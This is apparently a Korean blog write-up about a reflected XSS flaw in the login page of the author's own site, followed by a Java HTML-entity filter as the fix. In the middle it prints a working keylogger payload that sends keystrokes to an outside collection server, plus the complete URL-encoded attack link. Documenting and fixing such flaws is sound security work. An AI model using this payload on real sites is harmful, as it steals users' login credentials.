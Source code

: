 ```yaml
---
title: "로그인 페이지 Reflected XSS 취약점"
excerpt: "로그인 페이지 Reflected XSS 취약점 발견하였다."
tags:
    - XSS
    - Reflected XSS
    - java
last_modified_at: 2023-05-30T09:13:00-05:00
---
```


## 취약점 발견 위치
- 직접 만든 사이트의 로그인 페이지에서 XSS 취약점을 발견하였다.<br>![Pasted image 20230530184238](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/af4d52b7-22d7-44fe-a78d-406421828678)


## 취약점 유형
- Reflected XSS 취약점.
- POC 코드를 이용하여 alert 창이 출력되는 것을 확인하였다.<br>![Pasted image 20230530184503](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/37c0fac8-7939-4a21-9069-94fcea7021e3)<br>![Pasted image 20230530184521](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/82cea7f2-fa52-4ed0-a276-32627e9558ee)

## 공격 시나리오
1. 공격자가 키로거를 삽입한 로그인 링크를 만들어 사용자가 클릭하도록 유도한다.
2. 사용자가 공격자가 전달한 링크를 통해 로그인을 시도한다면 사용자의 입력 정보가 그대로 공격자 서버로 전송된다.
3. 공격자 서버에서 사용자가 입력한 정보를 그대로 확인할 수 있다.


## 공격 스크립트 작성

- 키로거 공격 스크립트

```html
<script>
var keys = "";
var hackURL = "공격자 서버 주소?v=";
window.onkeydown=(e)=>{
	key = e.keyCode?e.keyCode:e.charCode;
	key = String.fromCharCode(key);
	keys += key;
	console.log(e);
};
window.setInterval(function(){ 
	if(keys != '') { 
		new Image().src = hackURL+keys;
		keys='';
	} 
}, 1000);
</script>
```

- 완성 공격 URL 인코딩 전

```
<script>var keys = "";var hackURL = "https://enpo6qk2njjal.x.pipedream.net/?v=";window.onkeydown=(e)=>{key=e.keyCode?e.keyCode:e.charCode;key=String.fromCharCode(key);keys +=key;console.log(e);};window.setInterval(function(){if(keys !=''){new Image().src = hackURL+keys;keys='';}},1000);</script>
```


- URL 인코딩 후

```
http://221.27.0.6/sign_in_page?msg=%3cscript%3evar+keys+%3d+%22%22%3bvar+hackURL+%3d+%22https%3a%2f%2fenpo6qk2njjal.x.pipedream.net%2f%3fv%3d%22%3bwindow.onkeydown%3d(e)%3d%3e%7bkey%3de.keyCode%3fe.keyCode%3ae.charCode%3bkey%3dString.fromCharCode(key)%3bkeys+%2b%3dkey%3bconsole.log(e)%3b%7d%3bwindow.setInterval(function()%7bif(keys+!%3d%27%27)%7bnew+Image().src+%3d+hackURL%2bkeys%3bkeys%3d%27%27%3b%7d%7d%2c1000)%3b%3c%2fscript%3e
```

## 공격 결과

- 키로거 스크립트가 동작중인 로그인 페이지<br>![Pasted image 20230530205933](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/e0e3b52a-12a8-4688-ac6f-fb18cbc0f9f2)
- 공격자 서버<br>![Pasted image 20230530210038](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/964346f5-ebf9-4cf4-a239-c54fa1c06268)
- 사용자의 입력이 공격자의 서버로 잘 전송이된 것을 확인할 수 있다.

## 대응 방안
- 로그인 페이징에서 찾은 Reflected XSS 취약점을 예방하기 위해서는 HTML 특수문자들을 HTML Entity 로 모두 치환해주면 된다.
- 사용자의 입력을 그대로 페이지에 보여주는 것이아닌 HTML Entity로 치환하여 보여준다.

```java
var msg = request.getParameter("msg");
// msg html 태그를 html entity로 치환하기.
msg = filter(msg);
```


- 치환함수

```java
// xss 방지
private String filter(String in){
	var re = in.replaceAll("[&]", "&amp;")
			.replaceAll("[<]", "&lt;")
			.replaceAll("[>]", "&gt;")
			.replaceAll("[']", "&#x27;")
			.replaceAll("[\"]", "&quot;")
			.replaceAll("[(]", "&#40;")
			.replaceAll("[)]", "&#41;")
			.replaceAll("[/]", "&#x2F;");
	return re;
}
```

- 요청을 문자 그대로 인식하여 XSS를 예방한다.<br>![Pasted image 20230530212323](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/60d0a792-8519-4680-ae8a-ebcc4fe1fe6b)


